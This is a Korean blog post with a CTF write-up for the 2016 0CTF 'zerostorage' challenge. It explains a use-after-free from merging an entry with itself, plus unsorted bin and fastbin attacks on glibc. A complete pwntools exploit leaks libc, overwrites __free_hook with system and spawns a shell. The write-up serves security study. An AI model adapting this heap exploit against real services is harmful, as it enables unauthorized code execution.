 ```yaml
---
layout: post
title: "[2016 0ctf] zerostorage 풀이"
date: 2018-09-27 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Try our super secret storage service - ZeroStorage
### Notice: Latest Ubuntu 14.04.4 LTS, with 3.13.0-79-generic kernel.
### 202.120.7.206 10101

hoyoyoyoyoyoyoyo

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_0ctf/zerostorage/01.png)
{: refdef}

으악

취약점은 `func_merge`에서 발생해요.

두 `entry`를 합치는 코드인데 코드 자체는 잘 짰으나 `from_entry`와 `to_entry`가 같은지 검사하지 않아요.

`realloc`을 하는데 `realloc`을 하고도 같은 `chunk`를 가리켜야 하니까 `len`은 `0x44`이하로 해야한다. 그럼 `free`를 하고도 `entry_list`엔 주소가 남아있어서 **uaf**가 발생해요.

나머진 귀찮다. 으어어어

- - -
# 0x01. 공격 방법

`unsorted_bin_attack`을 하면 원하는 주소에 `main_arena+88`의 주소를 넣을 수 있다. 이게 `libc_leak` 정도만 쓰일 줄 알았는데 이 문제는 좀 띠용하게 사용했어요.

`fastbin`의 범위는 `global_max_fast`보다 작은 크기라서 기본적으론 `0x80`인가 들어있어요. 그런데 `unsorted_bin_attack`으로  `main_arena+88`을 넣어버리면 거의 모든 `chunk`를 `fastbin` 마냥 사용할 수 있어요.

이 문제에서 할당받을 수 있는 최소 크기가 `0x90`이라 `small_bin`이었는데 이젠 `fastbin`이에요.

그리고 `free_hook`를 뒤져보니까 `0x200`으로 인식하게 할 수 있는 데이터가 있어서 `0x200`짜리 `fastbin`으로 `fastbin_dup_into_stack`해서 `free_hook`를 덮었어요.

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "202.120.7.206"
PORT = 4444
#PORT = 10101

s = remote(HOST, PORT)
pause()

elf = ELF("./zerostorage")
libc = ELF("./libc.so.6")

libc_off = 0x3c4b78
system_off = libc.symbols["system"]
free_hook_off = libc.symbols["__free_hook"]
global_max_fast_off = 0x3c67f8

def func_insert(content):
    s.recvuntil("Your choice: ")
    s.sendline("1")

    s.recvuntil("Length of new entry: ")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_update(index, content):
    s.recvuntil("Your choice: ")
    s.sendline("2")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("Length of entry:")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_merge(from_index, to_index):
    s.recvuntil("Your choice: ")
    s.sendline("3")

    s.recvuntil("Merge from Entry ID: ")
    s.sendline(str(from_index))

    s.recvuntil("Merge to Entry ID: ")
    s.sendline(str(to_index))

def func_delete(index):
    s.recvuntil("Your choice: ")
    s.sendline("4")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

def func_view(index):
    s.recvuntil("Your choice: ")
    s.sendline("5")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("\n")

func_insert("A" * 0x44) # 0
func_insert("A" * 0xfc) # 1

func_merge(0, 0) # 0 -> 2

func_view(2)
libc_leak = u64(s.recv(8))
s.recvuntil("\n")

libc_base = libc_leak - libc_off
libc_system = libc_base + system_off
libc_free_hook = libc_base + free_hook_off
global_max_fast = libc_base + global_max_fast_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_free_hook : " + hex(libc_free_hook))
log.info("libc_system : " + hex(libc_system))
log.info("global_max_fast : " + hex(global_max_fast))
print

func_update(2, ("A" * 0x8 + p64(global_max_fast - 0x10)).ljust(0x88, "A")) # unsorted_bin_attack
func_insert("/bin/sh\0".ljust(0x88, "A")) # 0

func_merge(1, 1) # 1 -> 3
func_update(3, p64(libc_free_hook - 0x59).ljust(0x1f8, "A"))

func_insert("A" * 0x1f8) # 1
func_insert(("\x00" * 0x49 + p64(libc_system)).ljust(0x1f8, "\x00"))

func_delete(0) # system("/bin/sh")

s.interactive()
```
